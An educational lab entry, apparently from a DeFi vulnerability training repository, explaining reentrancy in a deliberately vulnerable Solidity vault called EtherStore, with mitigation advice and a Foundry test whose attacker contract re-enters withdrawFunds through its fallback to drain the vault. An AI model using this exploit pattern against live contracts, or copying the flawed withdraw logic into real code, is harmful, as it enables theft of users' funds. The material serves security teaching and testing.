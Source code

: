 # Reentrancy
[Reentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Reentrancy.sol)   
**Name:** Reentrancy Vulnerability

**Description:**  
The EtherStore Reentrancy Vulnerability is a flaw in the smart contract design that allows
an attacker to exploit reentrancy and withdraw more funds than they are entitled to from the EtherStore contract.
The vulnerability arises due to the withdrawFunds function in the EtherStore contract,
where the Ether is transferred to the attacker's address before updating their balance.
This allows the attacker's contract to make a reentrant call back to the withdrawFunds function before the balance update,leading to multiple withdrawals and potentially draining all the Ether from the EtherStore contract.

**Scenario:**  
EtherStore is a simple vault, it can manage everyone's ethers.
But it's vulnerable, can you steal all the ethers ?

**Mitigation:**  
Follow check-effect-interaction and use OpenZeppelin Reentrancy Guard.

**REF:**  

https://slowmist.medium.com/introduction-to-smart-contract-vulnerabilities-reentrancy-attack-2893ec8390a  

https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/  

**EtherStore Contract:**  
```
contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        (bool send, ) = msg.sender.call{value: _weiToWithdraw}("");
        require(send, "send failed");

        // check if after send still enough to avoid underflow
        if (balances[msg.sender] >= _weiToWithdraw) {
            balances[msg.sender] -= _weiToWithdraw;
        }
    }
}
```
**How to Test:**

forge test --contracts src/test/Reentrancy.sol-vvvv  
```  
// Function to test the EtherStore for reentrancy attack vulnerability
function testReentrancy() public {
    // Execute the Attack function of the attack contract
    attack.Attack();
}

// Contract for the attack on EtherStore
contract EtherStoreAttack is Test {
    // The EtherStore contract to be attacked
    EtherStore store;

    // Constructor function to initialize the EtherStore contract
    constructor(address _store) {
        store = EtherStore(_store);
    }

    // Function to perform the attack
    function Attack() public {
        // Log the balance of the EtherStore contract
        console.log("EtherStore balance", address(store).balance);

        // Deposit 1 ether to the EtherStore contract
        store.deposit{value: 1 ether}();

        // Log the new balance of the EtherStore contract
        console.log(
            "Deposited 1 Ether, EtherStore balance",
            address(store).balance
        );
        // Withdraw 1 ether from the EtherStore contract, this is the point of exploit
        store.withdrawFunds(1 ether); 

        // Log the balance of the attacking contract
        console.log("Attack contract balance", address(this).balance);
        // Log the balance of the EtherStore contract after withdrawal
        console.log("EtherStore balance", address(store).balance);
    }

    // Fallback function to exploit reentrancy vulnerability
    receive() external payable {
        // Log the balance of the attacking contract
        console.log("Attack contract balance", address(this).balance);
        // Log the balance of the EtherStore contract
        console.log("EtherStore balance", address(store).balance);
        // If the balance of the EtherStore contract is at least 1 ether
        if (address(store).balance >= 1 ether) {
            // Withdraw 1 ether, this is the point of exploit in the fallback function
            store.withdrawFunds(1 ether); 
        }
    }
}
```  
Red box: exploited successful, drained out the EtherStore.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6c7fb809-e4be-407c-a133-64416461a86e%2FUntitled.png?table=block&id=cc44df8e-6a18-44b2-b9e9-892b3b29be79&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)


